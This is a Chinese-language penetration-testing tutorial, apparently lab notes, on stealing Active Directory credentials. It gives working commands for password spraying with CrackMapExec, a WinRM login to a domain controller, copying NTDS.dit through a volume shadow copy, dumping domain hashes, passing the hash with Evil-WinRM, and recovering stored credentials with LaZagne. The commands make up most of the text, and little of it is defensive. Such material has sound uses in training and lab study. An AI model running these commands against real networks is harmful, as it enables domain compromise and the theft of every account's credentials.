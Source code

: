 #### 1. 使用 CrackMapExec 进行密码的获取

```shell
crackmapexec smb 10.129.201.57 -u bwilliamson -p /usr/share/wordlists/fasttrack.txt
```

#### 2. 捕获 NTDS.dit

NTDS 是和 AD 一起用于查找和组织网络资源的目录服务，该 NTDS.dit 存储在域控制器 %systemroot%/ntds 上，.dit 代表目录信息树,这是和 AD 管理的主要数据库文件，存储所有域用户名、密码哈希和其它关键架构信息，如果可以捕获此文件，我们可能会破坏域中的每个帐户

```shell
# 使用 Evil-WinRM 连接 DC
evil-winrm -i 10.129.201.57  -u bwilliamson -p 'P@55w0rd!'
# 检查本地组成员
*Evil-WinRM* PS C:\> net localgroup
# 检查用户账户权限，包括域
*Evil-WinRM* PS C:\> net user bwilliamson
```

#### 3. 创建 C 的卷影副本

> 我们可以使用 VSS 创建可以主动读取和写入的卷影副本

```shell
# 创建卷影副本
*Evil-WinRM* PS C:\> vssadmin CREATE SHADOW /For=C:
# 从 VSS 复制 NTDS.dit
*Evil-WinRM* PS C:\NTDS> cmd.exe /c copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2\Windows\NTDS\NTDS.dit c:\NTDS\NTDS.dit
```

#### 4. 使用 CrackMapExec

> 我们可以使用 CrackMapExec 来完成上面的步骤

```shell
crackmapexec smb 10.129.201.57 -u bwilliamson -p P@55w0rd! --ntds
```

#### 5. 继续利用

> 我们可以使用密码破解工具，破解哈希也可以使用 传递哈希(PTH) 对系统进行身份验证

```shell
# 使用 Evil-WinRM 示例传递哈希
evil-winrm -i 10.129.201.57  -u  Administrator -H "64f12cddaa88057e06a81b54e73b949b"
```

### 4. Windows 中凭据搜索

#### 1. 工具

我们可以利用 [Lazagne](https://github.com/AlessandroZ/LaZagne) 等第三方工具快速反向 WEB 浏览器和其它已经安转应用程序可能不安全的存储凭据

```shell
# 运行
C:\Users\bob\Desktop> start lazagne.exe all
```
